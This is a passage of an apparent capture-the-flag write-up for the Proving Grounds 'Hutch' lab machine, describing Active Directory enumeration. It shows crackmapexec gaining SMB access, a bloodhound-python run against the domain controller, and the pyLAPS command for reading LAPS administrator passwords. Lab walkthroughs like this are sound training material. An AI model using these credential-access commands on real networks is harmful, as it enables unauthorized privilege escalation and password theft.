 {: .nolineno}

I made a username file named as <span style="color:#fd77f8">users.txt</span> 🔻

Through <mark style="background: #FF5582A6;">crackmapexec</mark> I got the smb access on user <span style="color:#f04276">fmcsorley</span> 🔻

![Image](Pasted%20image%2020240617111450.png)

Lets collect some bloodhound data to investigate the connections further more 🔽

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Practice/Hutch]
└─$ sudo bloodhound-python -d hutch.offsec -u fmcsorley -p '<PASSWORD>' -ns 192.168.182.122 -c all
[sudo] password for kali: 
INFO: Found AD domain: hutch.offsec
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (hutchdc.hutch.offsec:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: hutchdc.hutch.offsec
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: hutchdc.hutch.offsec
INFO: Found 18 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: hutchdc.hutch.offsec
INFO: Done in 00M 22S

```
{: .nolineno}

![Image](Pasted%20image%2020240617104832.png)

###### ReadLAPSPassword

Sufficient control on a computer object is abusable when the computer's local admin account credential is controlled with LAPS. The clear-text password for the local administrator account is stored in an extended attribute on the computer object called ms-Mcs-AdmPwd.

[pyLAPS](https://github.com/p0dalirius/pyLAPS) can be used to retrieve LAPS passwords:

```bash
pyLAPS.py --action get -d "DOMAIN" -u "ControlledUser" -p "ItsPassword"
```
{: .nolineno}

Lets use on <span style="color:#f04276">fmcsorley</span> user 🔻

![Image](Pasted%20image%2020240617105502.png)
